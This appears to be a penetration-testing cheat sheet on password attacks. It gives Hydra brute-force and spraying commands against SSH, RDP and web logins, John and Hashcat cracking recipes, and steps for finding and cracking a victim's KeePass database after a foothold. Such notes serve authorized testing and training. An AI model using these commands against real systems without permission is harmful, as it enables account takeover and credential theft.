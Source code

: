 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 🐈‍⬛ Password attacks

## Online Brute force

### Hydra

Brute forcing `SSH`&#x20;

```bash
hydra -l <username> -P <password_wordlist> -s <ssh_port> ssh://<target>
```

Password spraying `RDP`

```bash
hydra -L <username_wordlist> -p <password> rdp://<target>
```

Brute forcing `website login form`

{% code overflow="wrap" %}
```bash
hydra -l <username> -P <wordlist> <target> http-post-form "/<login_page_route>:<username_paramter>=user&<password_paramter>=^PASS^:<failed_login_string>"
```
{% endcode %}

Brute forcing `basic authentication`

```bash
hydra -l <username> -P <wordlist> <target> http-get
```

## Offline Brute force

### John the ripper

Perform offline hash crack:

```bash
john --wordlist=<wordlist> <hashfile
>
```

### Hashcat

Find hash types:

```
hashcat --help | grep -i "KeePass"
```

Perform offline hash crack:

```
hashcat -m <hash_type> <hash> <wordlist>
```

## Password Manager

In case the foothold is achieved and the victims uses KeePass is possible to offline crack the master password.

Finding the database file on target machine:

```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

Creating a crackable hash using `keepass2john` :

```
keepass2john Database.kdbx > keepass.hash
```

Cracking the hash using hashcat:

```bash
hashcat -m 13400 keepass.hash ~/wordlists/rockyou.txt
```

## Identify the hash

### Hash-Identifier

```
hash-identifier
```

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption><p>hash-identifier</p></figcaption></figure>

### Hashid

```
hashid <hash>
```

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption><p>hashid</p></figcaption></figure>

## Wordlists

Modify wordlists according to target password policy using `Hashcat` and a `rule` file:

{% code title="rulefile.rule" %}
```
rules examples:
$<string> - append the string.
^<string> - prepend the string.
c - capitalize the first character.

rules operations:
rule rule rule - the rules affects each word together.

the rules affects separately and creates more words (1 more word each rule):
rule
rule
```
{% endcode %}

More rule functions:

{% embed url="https://hashcat.net/wiki/?id=rule_based_attack#implemented_compatible_functions" %}
Rule Functions
{% endembed %}

There are commonly rule files in the `Hashcat` directory:

```bash
ls -la /usr/share/hashcat/rules/
```

Create and print the new rule based wordlist

```bash
hashcat -r <rulefile> --stdout <wordlist>
```

### Hashcat

Crack using the new rule based wordlist

```bash
hashcat -m <hash_type> <hash> <wordlist> -r <rulefile> 
```

### John

Create rule file for example:

```
[List.Rules:<rule_name>]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```

Append the rule file into `/etc/john/john.conf`:

```bash
sudo bash -c 'cat <rulefile> >> /etc/john/john.conf'
```

Crack using the new rule based wordlist

```bash
john --wordlist=<wordlist> --rules=<rule_name> <hashfile>
```

